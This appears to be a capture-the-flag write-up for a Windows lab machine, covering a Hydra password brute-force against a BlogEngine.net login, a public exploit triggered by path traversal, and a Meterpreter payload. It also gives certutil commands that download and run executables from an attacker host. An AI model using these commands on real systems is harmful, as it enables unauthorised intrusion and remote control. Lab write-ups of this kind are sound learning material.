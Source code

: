 ```yaml
---
title: HackPark WriteUp
description: Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine
tags:
- writeups
- tryhackme
- windows
- passwordattack
---
```

## Enumeration

Initial port scan

```bash
export TARGET_IP="10.10.172.216"
nmap -Pn $TARGET_IP
```

Output
```bash
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
```

So we have RDP and a HTTP server

Website appears to be an aspx based CMS "blogengine.net"

Attempting to login makes a POST request to `/Account/login.aspx`

## Web Access

```bash
hydra -I -l admin -P /usr/share/wordlists/rockyou.txt 10.10.172.216 http-post-form '/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=EWGN3t6CyJTEWk%2FRgVv08LEg21xa3%2FIWO0YF1Z6fNbOzdTtNdjEi6adB5p794MlT2qq45TpeZKlI2KU04RVSb%2BhTZTi30ad7m4oqX0EM9qPfXl6cIpx14itIc9YnfBtMEcZepgWs8dybyBv3n4PjKa1rDgQD9xGjxAAUTUTz2sidxIwN&__EVENTVALIDATION=1jIK9zCZ3IE2OlqMT8JAnCqjc%2BenU2dN36%2Fsbwmgn%2Bt0QRR78NSzX8o1V15PehbuBX%2BdOBImNsPSPHIgneX6%2FRnQzSiS2T%2Fozd2wcSjsFMVUFHjmu4WBX7TGO5qwubiNTfLi3VtgPEj4bG%2BA8jqxcGb2VButcFMaAJW4zjWhCRkrRrXD&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed' -f
```
Takes a few mins but get
```
[80][http-post-form] host: 10.10.172.216   login: admin   password: 
```

Once logged in with above creds, going to ABOUT show version is 3.3.6.0

## Initial Access

Searching exploit-db found https://www.exploit-db.com/exploits/46353

I saved the file and changed the IP and port to my own before uploading through the Content > Post > Upload

I visited http://10.10.172.216//?theme=../../App_Data/files to trigger the exploit

## Meterpreter

Generated a shell
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai 'LHOST=10.4.32.196' LPORT=8081 -f exe > shell.exe
```

Started a msfconsole multi handler

Ran a `python -m http.server`

Downloaded and ran the shell from the cmd shell with
```
certutil.exe -urlcache -split -f "http://10.4.32.196:8000/shell.exe" C:\users\public\shell.exe
START /B /I C:\users\public\shell.exe
```

## PrivEsc

By looking in C:\Program Files (x86) a strange directory called SystemScheduler was found

The corresponding Windows service was `windowsscheduler`


## Without metasploit

```
certutil.exe -urlcache -split -f "http://10.4.32.196:8000/winPEASany.exe" C:\users\public\winpeasany.exe
START /B /I C:\users\public\shell.exe
```
